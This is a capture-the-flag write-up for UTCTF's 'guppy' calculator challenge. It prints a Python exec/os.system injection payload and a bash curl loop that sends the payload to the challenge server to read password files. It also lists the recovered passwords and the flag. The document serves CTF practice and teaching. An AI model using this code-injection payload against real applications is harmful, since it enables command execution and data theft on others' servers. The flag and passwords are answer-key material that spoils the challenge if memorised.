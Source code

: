#### Challenge:

Who says guessing games shouldn't let you do math?

http://guppy.utctf.live:5957

By Alex (@Alex_ on discord)

---

#### Solution:

- we solved this challenge by collaborative efforts of other contestant as the container was shared for everyone. All of the mess and attempts were accessible across all teams.
- first 3 passwords `PuXqj7n4WNZzStnWbtPv` `Krdi9yQuY8mHoteZDCF5` `E46Dnqb5enAMgGArbruu` can be easily obtained just via following payload `exec('import os; os.system(\"cat *.txt;\"); print()')`

```bash
for level in 0 1 2; do
    password=$(
        curl -b /tmp/guppy.utctf.live --cookie-jar /tmp/guppy.utctf.live  'http://guppy.utctf.live:5957/' -X POST \
            -H 'Content-Type: application/x-www-form-urlencoded' \
            --data-urlencode 'type=calculate' \
            --data-urlencode "level=${level}" \
            --data-urlencode "expression=exec('import os; os.system(\"cat *.txt;\"); print()')" \
            2>/dev/null | htmlq --text '.result>pre' | head -n 1
    )
    echo -n "$password - "

    curl -b /tmp/guppy.utctf.live --cookie-jar /tmp/guppy.utctf.live  'http://guppy.utctf.live:5957/' -X POST \
        -H 'Content-Type: application/x-www-form-urlencoded' \
        --data-urlencode 'type=unlock' \
        --data-urlencode "password=${password}" 2>/dev/null | htmlq --text '.notification'
done
```

- as for the last password `5F4p7aLgQ5Nfn5YM8s68` during the competition someone unintentionally leaked it to `/tmp`

---

<details><summary>FLAG:</summary>

```
utflag{LGvb7PJXG5JDwhsEW7xp}
```

</details>
<br/>
